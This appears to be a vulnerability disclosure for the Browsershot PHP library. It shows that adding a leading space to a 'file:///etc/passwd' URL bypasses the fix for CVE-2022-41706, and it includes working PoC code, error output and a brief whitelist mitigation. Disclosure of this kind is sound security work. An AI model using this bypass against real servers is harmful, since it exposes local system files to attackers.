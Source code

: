 # Description

Browsershot version 4.3.0 allows an external attacker to remotely obtain arbitrary local files. This is possible because the application does not validate the URL protocol passed to the Browsershot::url method.

# Vulnerability
This vulnerability occurs because the application does not validate the URL protocol passed to the Browsershot::url method. Thanks to this, an attacker can point to internal server files, which will be reflected in the PDF that will be generated,Although a fix was made in version 3.57.3, it can still be bypassed!


# Bypass CVE-2022-41706
In versions after 3.57.3, we can see that in the Browsershot.php setUrl function, attempts were made to use string prefix checks for defense, whether it's with Helpers::stringStartWith or PHP's built-in str_starts_with function. However, both are vulnerable to attacks involving spaces.

# PoC 
There is a vulnerable example with : Browsershot.php
* browsershot version with 4.3.0

**Browsershot.php** line 258~268

```php=
    public function setUrl(string $url): static
    {
        if (str_starts_with(strtolower($url), 'file://')) {
            throw FileUrlNotAllowed::make();
        }

        $this->url = $url;
        $this->html = '';

        return $this;
    }
```

## Exploit

* We will write an exploit based on this [PoC](https://fluidattacks.com/advisories/eminem/)

```php=
<?php 

require './vendor/autoload.php';
use Spatie\Browsershot\Browsershot;

Browsershot::url('file:///etc/passwd')
    ->noSandbox()
    ->save('poc.pdf');
```

* After executing, we can see an error message.

```php=
root@c19dc1ee2dc0:/var/www/html# php -f poc.php 

Fatal error: Uncaught Spatie\Browsershot\Exceptions\FileUrlNotAllowed: An URL is not allow to start with file:// in /var/www/html/vendor/spatie/browsershot/src/Exceptions/FileUrlNotAllowed.php:11
Stack trace:
#0 /var/www/html/vendor/spatie/browsershot/src/Browsershot.php(261): Spatie\Browsershot\Exceptions\FileUrlNotAllowed::make()
#1 /var/www/html/vendor/spatie/browsershot/src/Browsershot.php(73): Spatie\Browsershot\Browsershot->setUrl('file:///etc/pas...')
#2 /var/www/html/poc.php(6): Spatie\Browsershot\Browsershot::url('file:///etc/pas...')
#3 {main}
  thrown in /var/www/html/vendor/spatie/browsershot/src/Exceptions/FileUrlNotAllowed.php on line 11
```

* However, we can bypass it by adding a space before "file:///etc/passwd"

```php=
<?php 

require './vendor/autoload.php';
use Spatie\Browsershot\Browsershot;

Browsershot::url(' file:///etc/passwd')
    ->noSandbox()
    ->save('poc.pdf');
```

* And we execute the exploit again.

![image](https://hackmd.io/_uploads/H1S8Bc2iC.png)

* We successfully read the contents of /etc/passwd.

## Demo

https://drive.google.com/file/d/1FnRKKIVdZVup43MiTMWravZdmY7HJytf/view?usp=sharing

## Mitigation 

* Add a whitelist to enhance input validation.

## Reference

https://fluidattacks.com/advisories/eminem/
https://github.com/spatie/browsershot
https://github.com/spatie/browsershot/blob/main/src/Browsershot.php
